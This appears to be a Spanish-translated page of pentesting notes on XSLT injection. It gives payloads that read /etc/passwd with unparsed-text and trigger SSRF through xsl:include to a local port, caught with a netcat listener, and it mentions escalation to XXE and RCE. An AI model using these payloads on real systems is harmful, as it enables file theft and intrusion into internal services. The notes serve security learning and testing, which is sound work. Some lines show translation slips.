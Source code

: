 ```
- https://www.w3.org/TR/xslt-10/
- https://www.w3.org/TR/xslt20/
- https://www.w3.org/TR/xslt-30/
```

#### Lectura de archivos XSLT <a href="#xslt-file-read" id="xslt-file-read"></a>

Si controlamos el archivo XSL:

```
unparsed-text($href as xs:string?) as xs:string?
unparser-text($href as xs:string?, $encoding as xs:string) as xs:string?

# the 'unparsed-text' function reads an external resource 
# (For example: a file) and returns its contents as a string
```

Ejemplo:

```
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
# the result contains a /etc/passwd file
```

![[Pasted image 20240311155812.png]]

XSL:Include es otra función interesante, que nos permite unir otra hoja de estilo xsl. La desventaja es que tiene que ser un documento XSL válido. Ventaja: La SSRF todavía es posible.

#### XSLT SSRF <a href="#xslt-ssrf" id="xslt-ssrf"></a>

```
<xsl:include href="http://127.0.0.1:8080/xslt"/>
```

El agente de escucha de netcat recibe la solicitud. Podemos reconocer la versión java de la víctima en el encabezado User-agent.

```
nc -lvnp 8080
```

#### Extensión de los ataques XSLT <a href="#extending-xslt-attacks" id="extending-xslt-attacks"></a>

En el mundo real, es difícil. Pero, de nuevo, la documentación puede ayudarte a identificar un vuln grave. Además, los analizadores XSLT pueden ser vulnerables a XXE vulns de la misma manera que todos los demás analizadores XML.

> Al responder a las **directivas XSL:INCLUDE**, u también puede intentar responder con XML que contenga una carga útil XXE.

> Además, es posible que los motores XSLT puedan ejecutar código personalizado, lo que da como resultado RCE

la segunda entrada es el código XSLT
